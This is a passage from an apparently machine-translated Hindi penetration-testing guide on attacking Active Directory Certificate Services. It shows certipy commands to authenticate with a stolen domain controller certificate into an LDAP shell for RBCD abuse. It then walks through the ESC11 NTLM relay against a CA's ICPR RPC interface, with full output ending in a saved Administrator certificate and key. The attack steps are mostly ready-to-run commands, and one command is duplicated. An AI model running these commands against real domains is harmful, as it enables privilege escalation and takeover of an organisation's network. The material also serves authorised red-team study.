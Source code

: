 ```bash
certipy auth -pfx dc.pfx -dc-ip 172.16.126.128 -ldap-shell
```
प्रमुख नियंत्रक को क्षति पहुंचाने की संभावना वाले संकटित अधिकार देने (RBCD) हमलों को सक्षम करने जैसे आदेशों के माध्यम से LDAP शैली के माध्यम से `set_rbcd` जैसे कमांड्स।
```bash
certipy auth -pfx dc.pfx -dc-ip 172.16.126.128 -ldap-shell
```
यह दुरुपयोगता किसी भी उपयोगकर्ता खाते तक फैलती है जिसमें `userPrincipalName` अभाव है या जहां यह `sAMAccountName` से मेल नहीं खाता, डिफ़ॉल्ट `Administrator@corp.local` एक प्रमुख लक्ष्य है क्योंकि इसके उच्च LDAP विशेषाधिकार होते हैं और डिफ़ॉल्ट रूप से `userPrincipalName` की अनुपस्थिति होती है।

## ICPR को NTLM पर रिले करना - ESC11

### स्पष्टीकरण

यदि CA सर्वर `IF_ENFORCEENCRYPTICERTREQUEST` के साथ कॉन्फ़िगर नहीं है, तो RPC सेवा के माध्यम से साइन न करके NTLM रिले हमले किए जा सकते हैं। [यहाँ संदर्भ](https://blog.compass-security.com/2022/11/relaying-to-ad-certificate-services-over-rpc/) में।

आप `certipy` का उपयोग कर सकते हैं यदि `Enforce Encryption for Requests` अक्षम है और certipy `ESC11` दुरुपयोगताओं को दिखाएगा।
```bash
$ certipy find -u mane@domain.local -p 'password' -dc-ip 192.168.100.100 -stdout
Certipy v4.0.0 - by Oliver Lyak (ly4k)

Certificate Authorities
0
CA Name                             : DC01-CA
DNS Name                            : DC01.domain.local
Certificate Subject                 : CN=DC01-CA, DC=domain, DC=local
....
Enforce Encryption for Requests     : Disabled
....
[!] Vulnerabilities
ESC11                             : Encryption is not enforced for ICPR requests and Request Disposition is set to Issue

```
### दुरुपयोग स्थिति

एक रिले सर्वर सेटअप करने की आवश्यकता है:
``` bash
$ certipy relay -target 'rpc://DC01.domain.local' -ca 'DC01-CA' -dc-ip 192.168.100.100
Certipy v4.7.0 - by Oliver Lyak (ly4k)

[*] Targeting rpc://DC01.domain.local (ESC11)
[*] Listening on 0.0.0.0:445
[*] Connecting to ncacn_ip_tcp:DC01.domain.local[135] to determine ICPR stringbinding
[*] Attacking user 'Administrator@DOMAIN'
[*] Template was not defined. Defaulting to Machine/User
[*] Requesting certificate for user 'Administrator' with template 'User'
[*] Requesting certificate via RPC
[*] Successfully requested certificate
[*] Request ID is 10
[*] Got certificate with UPN 'Administrator@domain.local'
[*] Certificate object SID is 'S-1-5-21-1597581903-3066826612-568686062-500'
[*] Saved certificate and private key to 'administrator.pfx'
[*] Exiting...
```
नोट: डोमेन कंट्रोलर्स के लिए, हमें DomainController में `-template` निर्दिष्ट करना चाहिए।
